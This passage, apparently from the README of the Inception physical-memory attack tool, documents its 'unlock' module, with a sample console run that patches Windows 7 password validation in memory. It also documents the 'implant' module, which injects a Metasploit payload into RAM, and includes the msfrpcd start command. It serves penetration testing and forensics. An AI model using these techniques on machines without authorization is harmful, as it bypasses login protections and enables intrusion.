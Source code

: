 (1): See caveats above.

Other Linux distributions that use PAM-based authentication may also work 
using the Ubuntu signatures.

The module also effectively enables escalation of privileges, for instance via
the `runas` or `sudo -s` commands, respectively.

#### Execution
    
To unlock, simply type:

    incept unlock

     _|  _|      _|    _|_|_|  _|_|_|_|  _|_|_|    _|_|_|  _|    _|_|    _|      _|
     _|  _|_|    _|  _|        _|        _|    _|    _|    _|  _|    _|  _|_|    _|
     _|  _|  _|  _|  _|        _|_|_|    _|_|_|      _|    _|  _|    _|  _|  _|  _|
     _|  _|    _|_|  _|        _|        _|          _|    _|  _|    _|  _|    _|_|
     _|  _|      _|    _|_|_|  _|_|_|_|  _|          _|    _|    _|_|    _|      _|

    v.0.4.0 (C) Carsten Maartmann-Moe 2014
    Download: http://breaknenter.org/projects/inception | Twitter: @breaknenter

    [?] Will potentially write to file. OK? [y/N] y
    [*] Available targets (known signatures):
    
    [1] Windows 8 MsvpPasswordValidate unlock/privilege escalation
    [2] Windows 7 MsvpPasswordValidate unlock/privilege escalation
    [3] Windows Vista MsvpPasswordValidate unlock/privilege escalation
    [4] Windows XP MsvpPasswordValidate unlock/privilege escalation
    [5] Mac OS X DirectoryService/OpenDirectory unlock/privilege escalation
    [6] Ubuntu libpam unlock/privilege escalation
    [7] Linux Mint libpam unlock/privilege escalation
    
    [?] Please select target (or enter 'q' to quit): 2
    [*] Selected target: Windows 7 MsvpPasswordValidate unlock/privilege escalation
    [=============>                                                ]  227 MiB ( 22%)
    [*] Signature found at 0xe373312 in page no. 58227
    [*] Patch verified; successful
    [*] BRRRRRRRAAAAAWWWWRWRRRMRMRMMRMRMMMMM!!!


### Implant

The `implant` module implants a (memory-only) Metasploit payload
directly to the volatile memory of the target machine. It integrates with MSF
through the `msfrpcd` daemon that is included in all versions of Metasploit.

The current version only work as a proof-of-concept against Windows 7 SP1 x86.
No other OSes, versions or architectures are supported, nor is there any
guarantee that they will be supported in the future.

#### Execution

To use it, start `msfrpcd`:

    msfrpcd -P [password]


[1]: http://inception.davepedu.com
[2]: https://wikileaks.org/spyfiles/files/0/293_GAMMA-201110-FinFireWire.pdf
[3]: http://freddie.witherden.org/tools/libforensic1394/
[4]: http://mxcl.github.io/homebrew/
[5]: http://www.breaknenter.org/projects/inception/
[6]: http://support.apple.com/en-us/HT202348
[7]: http://www.microsoft.com/en-us/download/details.aspx?id=41671
[8]: https://www.youtube.com/watch?v=0FoVmBOdbhg
[9]: http://www.w3schools.com/browsers/browsers_os.asp